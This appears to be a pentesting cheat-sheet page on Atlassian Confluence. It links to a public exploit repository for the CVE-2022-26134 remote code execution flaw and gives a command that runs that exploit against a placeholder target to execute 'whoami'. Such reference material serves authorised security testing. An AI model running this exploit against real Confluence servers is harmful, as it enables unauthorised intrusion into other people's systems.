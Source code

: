```yaml
---
title: Atlassian Confluence Pentesting
description: Atlassian Confluence is a collaboration wiki tool used to help teams to collaborate and share knowledge efficiently.
tags:
    - Web
refs:
date: 2022-11-22
draft: false
---
```


## Remote Code Execution (CVE-2022-26134)

Download the exploit from the [repo](https://github.com/h3v0x/CVE-2022-26134).

```sh
python3 exploit.py -u http://<target-ip> -c whoami
```

